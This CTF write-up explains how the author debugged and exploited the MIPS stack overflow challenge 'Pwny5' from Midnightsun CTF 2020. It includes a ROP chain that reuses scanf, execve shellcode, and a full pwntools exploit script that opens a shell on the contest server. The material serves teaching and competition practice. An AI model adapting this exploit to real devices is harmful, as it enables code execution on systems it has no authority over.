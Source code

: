 ```yaml
---
title: Pwny5 | Midnightsun CTF 2020
tags: ["pwn", "stack_overflow", "mips"]
authors: ["jofra"]
points: 176
solves: 27
---
```


In this writeup we will see how to run and debug a `mips` binary and how to exploit a simple buffer overflow.

## Overview
In this challenge we get a statically linked binary with a very simple vulnerability. A `scanf("%s", stack_buffer)` resulting in a classic stack buffer overflow, as can be seen in the image below.

![](/assets/img/2020-04-04-pwny5_main.png)

The interesting part is that we have a `mips` binary. This was a first for me and in this writeup we will explore how I debugged and exploited this challenge.

![](/assets/img/2020-04-04-pwny5_file.png)

## Debugging setup
First of all let's get a good debugging setup.

To simply run the binary we can use `qemu-mipsel-static ./pwn5`.

We can also make qemu wait for a gdb connection on port 1234 with `qemu-mipsel-static -g 1234 ./pwn5`. Then, on another terminal, we can launch `gdb-multiarch` and run the following commands to establish the connection (I added these to my `~/.gdbinit` to make this step automatic):
```
file ./pwn5
set arch mips
target remote localhost:1234
```

And we have debugging! As a side note, `pwndbg` was making qemu crash for some reason I did not investigate, but switching to `gef` fixed that problem for the most part.


## Exploit
### pc control
To start let's get `pc` (program counter) control. The program calls `scanf("%s", buf_64_sz)` and so we just need to fill the buffer with `"A"*64` and then we have control over the `fp` (frame pointer) and `ra` (return address).

![](/assets/img/2020-04-04-pwny5_main_end.png)

```py
fp = "BBBB"
ra = "CCCC"
s.sendline("A"*64 + fp + ra)
```

### Popping a shell
To pop a shell, my first thought was to **ROP**, calling the `read` syscall to read `/bin/sh` to the bss, and then calling the `execve` syscall. In [linux mips syscall](https://www.linux-mips.org/wiki/Syscall) arguments are passed in registers `$a0` to `$a3` and the syscall number is passed in register `$v0`.

After looking through the gadgets (extracted with `ROPgadget --binary ./pwn5`) I noticed that, contrarily to x86, having control over the argument registers `$a0`, `$a1` and `$a2` is not very easy.

For that reason I decided to use the existing `scanf` call in the binary to get data into the `bss`. As we can see in the image below, if we jump to the highlighted address `0x400758`, we can control where the scanf will write to by controlling `$v0`.

![](/assets/img/2020-04-04-pwny5_scanf_call.png)

And that is what I did. I used a gadget to control `$v0` and then jumped to `0x400758`.
```python
def set_v0(v0):
    return "".join([
        p32(0x0046f27c), # lw $v0, 0x20($sp); lw $ra, 0x2c($sp); jr $ra ; addiu $sp, $sp, 0x30
        "X"*0x20,
        p32(v0),
        "X"*0x8,
    ])

addr_to_read_to = elf.bss(0x100)
scanf_addr = 0x400758
ROP = "".join([
    set_v0(addr_to_read_to),
    p32(scanf_addr),
])

payload = "A"*64 + p32(elf.bss(0x200)) + ROP
s.sendline(payload)
```

I also made `fp` equal `bss+0x200`, because this value will be used to set `sp` after the call to `scanf`, on the instruction `move $sp, $fp` which is analogous to `leave` on x86. (can be seen in the first picture at 0x40078c). By controlling the stack pointer, we can regain `ra` and therefore `pc` control.

At this point I also realized that I could execute shellcode on the stack, bss, etc.. since all mappings are `rwx`. Since I was already reading to the bss, I decided to read shellcode, and then jump to it.

The shellcode consisted of:
 - setting `$a1` and `$a2` to 0
 - setting `$a0` to the address of `/bin/sh` by simply subtracting 8 to the original `$a0` (determined by debugging)
 - setting `$v0` with the `execve` syscall number
 - jumping to the address of a `syscall` gadget already in the binary

**NOTE**: Ideally I would simply use the `syscall` instruction (opcode `0000000c`), but it contains the byte `0c` which would cause `scanf` to stop reading. At the time I didn't know this, but there was a simple workaround. As you can see in [mips-isa](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf) page 159, the syscall opcode has a `code` field which we can use to our advantage. Assembling `syscall 0xfffff` results in opcode `03ffffcc` which does NOT contain a terminating char like before. That said, jumping to a `syscall` gadget was also simple enough and I even learned about delay slots.

If you notice there is a `nop` after the `j 0x4068bc`, which is not there by accident. In MIPS there are [branch delay slots](https://en.wikipedia.org/wiki/Delay_slot), meaning the next instruction is always executed, even if the previous instruction was a branch that was taken.

```python
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    addiu $a0, $a0, -8 # This will point to /bin/sh

    li $v0, 4011 # execve syscall
    j 0x4068bc # syscall gadget
    nop
""")
print disasm(mips_shellcode)

# The bytes that will stop scanf from reading
assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
s.sendline(payload_2.ljust(1132-8, "Z") + "/bin/sh")
```

And we have a shell!

## Other possible methods
Now thinking about it, since the code area is writable I guess I could have just injected my shellcode right after the `scanf` call instead of injecting it in the bss and then jumping to it.

Maybe I could even just have written the shellcode on the stack and used a gadget to jump to the stack pointer, instead of reading the second time with `scanf`.


## Exploit
Here is the full exploit:

```py
from pwn import *
import sys

LOCAL = True
if "remote" in sys.argv:
    LOCAL = False


context.clear(log_level='info', arch="mips", os='linux')
elf = ELF("pwn5")

HOST = "pwn5-01.play.midnightsunctf.se"
PORT = 10005


def go():
    if LOCAL:
        # s = process("qemu-mipsel-static -g 1234 ./pwn5".split(" "))
        s = process("qemu-mipsel-static ./pwn5".split(" "))
    else:
        s = remote(HOST, PORT)

    s.recvuntil("data:")

    def set_v0(v0):
        return "".join([
            p32(0x0046f27c), # : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
            "X"*0x20,
            p32(v0),
            "Z"*0x8,
        ])

    shellcode_addr = elf.bss(0x100)
    scanf_addr = 0x400758
    ROP = "".join([
        set_v0(shellcode_addr),
        p32(scanf_addr),
    ])

    payload = "A"*64 + p32(elf.bss(0x200)) + ROP
    print "Payload:", payload
    s.sendline(payload)

    mips_shellcode = asm("""
        xor $a1, $a1
        xor $a2, $a2

        addiu $a0, $a0, -8 # This will point to /bin/sh

        li $v0, 4011 # execve syscall
        j 0x4068bc # syscall gadget
        nop
    """)
    print disasm(mips_shellcode)

    # The bytes that will stop scanf from reading
    assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

    payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
    payload_2 = payload_2.ljust(1132-8, "Z") + "/bin/sh"
    s.sendline(payload_2)

    s.interactive()

go()
```
